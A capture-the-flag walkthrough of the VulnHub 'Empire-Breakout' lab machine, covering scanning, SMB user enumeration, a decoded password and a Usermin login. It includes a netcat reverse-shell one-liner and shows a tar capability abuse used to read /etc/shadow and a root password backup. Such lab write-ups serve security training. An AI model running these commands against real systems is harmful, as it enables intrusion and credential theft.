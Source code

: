 ```yaml
---
layout: post
title: Empire-Breakout
categories: VulnHub Machines
permalink: /vulnhub/empire-breakout
---
```


Author: Icex64 & Empire Cybersecurity

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 02:53 UTC
Nmap scan report for 192.168.56.135
Host is up (0.00092s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:A2:1E:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-time: 
|   date: 2025-01-09T02:53:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.56.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.84 seconds
```

## Port 80

![image1](https://github.com/user-attachments/assets/bd17d2ef-e799-4ea5-a5de-bad5e810d366)


We are greeted with the apache2 default page. Nothing too special on the page. Let’s look at the source code to see if we find anything.

### Source Code

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

We can find the above comment hidden within the source code of the page. The weird looking string is encoded using the Brainf**k cipher. Decoding it we get the below string

```bash
.2uqPEfj3D<P'a-3
```

It seems this could be a password to an account. Let’s visit the other ports where we saw MiniServ running.

## Port 10000

![2](https://github.com/user-attachments/assets/033a6325-8e57-4b01-abd9-3563a2ccbd6f)


We are greeted with a login page. We can try to login with the password we obtained earlier. Using admin as the user with the password doesn’t work. This means that we need to look for a valid username.

If we look back at the nmap scan we can see that smb is running. We can use enum4linux to find valid users

## enum4linux

```bash
enum4linux -r 192.168.56.135
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  9 03:10:36 2025

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                            
Target ........... 192.168.56.135                                                                                                                                                                                                           
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

<SNIP>                                                                                                                                                                        

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                            
S-1-22-1-1000 Unix User\cyber (Local User)                                                                                                                                                                                                  

<SNIP>

enum4linux complete on Thu Jan  9 03:10:49 2025
```

We can see that there is a local user with the username cyber. Let’s try using that as our username on the Webmin login page.

![3](https://github.com/user-attachments/assets/8275438b-88ba-4f0b-80f9-0b35da20197d)


Well, that didn’t work. There is another service Usernmin running on port 20000. We can check to see if the credentials work there.

![4](https://github.com/user-attachments/assets/95f7ce8d-5992-4189-9365-8eb3cf20fe7d)


And there we go, we are now logged in onto Usermin. We can now use the inbuilt terminal to run commands on the server.

![5](https://github.com/user-attachments/assets/2fac5282-770c-41d3-9c56-b40366344a92)


Let us get a more interactive shell by using netcat.

```bash
[cyber@breakout ~]$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4242 >/tmp/f
```

![6](https://github.com/user-attachments/assets/5c5c8360-deb2-49c3-bc68-6a87da642b3b)


After getting a more interactive shell using python, we get the user.txt file.

Now time to escalate the privileges.

## Priv Esc

We can see that there is a binary for the tar program there. Which is likely our way to root.

![7](https://github.com/user-attachments/assets/4e44aa5b-bc81-44ce-a927-d46c094eb2d1)


My first thought was that maybe we have sudo as root on the tar binary. But sudo was disabled so we can’t do that.

We can use getcap to see what capabilities the binary has.

![9](https://github.com/user-attachments/assets/bc0bd0f1-c59b-435a-ab26-c15683ef1bfc)


The cap_dac_read_search capability allows us to bypass file read permissions.

We can try and see if we can read the /etc/shadow file.

![10](https://github.com/user-attachments/assets/fcd09e0a-03dd-4426-b0d3-97473c9f9a39)


And sure enough we can.

We can try and crack the hashes offline, but considering the password for cyber was complex, we can see if we have any other way.

Since we can read any file as root, we can look for interesting files owned by root in any of the usual places such as /var/backup or /opt.

![11](https://github.com/user-attachments/assets/fc7ac7d8-21e2-4950-8e56-79c736f14f7e)


Looking at /var/backup we can see a .old_pass.bak file which is readable only by root.

Let’s use out tar binary to read this file.

![12](https://github.com/user-attachments/assets/7775db6b-c588-418b-825a-0807ce461d86)


We seem to get a complex looking password.

Let’s try to su to root using this pass.

![13](https://github.com/user-attachments/assets/46e2d85e-986e-4b22-b607-195993c8424f)


And there we go, we finally have root

![14](https://github.com/user-attachments/assets/b4681ba9-e7c7-481b-b147-3fb6bb338079)

https://www.vulnhub.com/entry/empire-breakout,751/
